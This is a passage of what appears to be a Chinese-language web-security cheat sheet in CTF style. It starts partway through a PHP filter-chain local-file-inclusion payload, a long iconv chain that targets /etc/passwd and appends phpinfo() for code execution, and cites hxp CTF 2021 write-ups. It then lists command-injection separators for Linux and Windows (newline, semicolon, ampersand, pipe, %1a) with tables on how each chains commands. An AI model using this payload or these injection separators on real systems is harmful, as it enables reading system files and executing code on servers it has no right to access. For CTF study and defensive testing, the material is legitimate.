 ```php
t.iconv.BIGFIVE.UTF32|convert.iconv.WINSAMI2.T.61|convert.iconv.ISO-IR-156.CSUCS4|convert.iconv.KOI8-T.CSIBM932|convert.iconv.CSIBM932.IBM866NAV|convert.iconv.IBM775.UTF32|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO-IR-6.ISO646-DE|convert.iconv.ISO2022KR.UTF32|convert.iconv.MAC-UK.ISO-10646|convert.iconv.UCS-4BE.855|convert.iconv.ISO88599.CSISO90|convert.iconv.ISO_6937:1992.10646-1:1993|convert.iconv.CP773.UNICODE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.BIGFIVE.UTF32|convert.iconv.WINSAMI2.T.61|convert.iconv.ISO-IR-156.OSF00010104|convert.iconv.CP860.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO-IR-6.ISO646-DE|convert.iconv.ISO2022KR.UTF32|convert.iconv.MAC-UK.ISO-10646|convert.iconv.UTF-32BE.MS936|convert.iconv.8859_5.UTF32|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP922.CSISOLATIN5|convert.iconv.ISO2022KR.UTF-32|convert.iconv.IBM912.ISO-IR-156|convert.iconv.ISO-IR-99.CSEUCPKDFMTJAPANESE|convert.iconv.8859_9.ISO_6937-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-GR.UNICODE|convert.iconv.ISO_8859-14:1998.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP869.CSIBM1163|convert.iconv.ISO2022KR.UNICODE|convert.iconv.LATIN3.NAPLPS|convert.iconv.ISO-IR-90.UTF16LE|convert.iconv.IBM874.UNICODEBIG|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.BIGFIVE.UTF32|convert.iconv.WINSAMI2.T.61|convert.iconv.ISO-IR-103.ISO-IR-209|convert.iconv.8859_5.CSISO2022JP2|convert.iconv.ISO-2022-JP-3.IBM-943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSISO2022KR.UTF16|convert.iconv.LATIN6.CSUCS4|convert.iconv.UTF-32BE.ISO_6937-2:1983|convert.iconv.ISO-IR-111.CSWINDOWS31J|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/etc/passwd&1=phpinfo();
```
[hxp CTF 2021 - A New Novel LFI](https://tttang.com/archive/1384/)
[https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d)
[PHP LFI with Nginx Assistance](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)
[hxp CTF 2021 - The End Of LFI?](https://tttang.com/archive/1395/)


### 命令执行

换行符     %0a
连续指令   ；
后台进程 &
管道符 |

**命令分隔符：**
linux中：`%0a 、%0d 、; 、& 、| 、&&、||`
windows中：`%0a、& 、| 、%1a(一个神奇的角色，作为.bat文件中的命令分隔符)`

windows:

|命令格式| 含义 |
|--|--|
|command1 & command2  | 先后执行command1和command2，无论command1是否执行成功|
command1 && command2|先后执行command1和command2，只有command1执行成功时才执行command2
command1 \|\| command2|先后执行command1和command2，只有command1执行失败时才执行command2
command \| command2|  \| 是管道符，将command1执行的结果传递给command2

linux:

|命令格式| 含义 |
|--|--|
|command1 ; command2  | 先后执行command1和command2，无论command1是否执行成功|
command1 && command2|先后执行command1和command2，只有command1执行成功时才执行command2
command1 \|\| command2|先后执行command1和command2，只有command1执行失败时才执行command2
command1 \| command2|  \| 是管道符，将command1执行的结果传递给command2
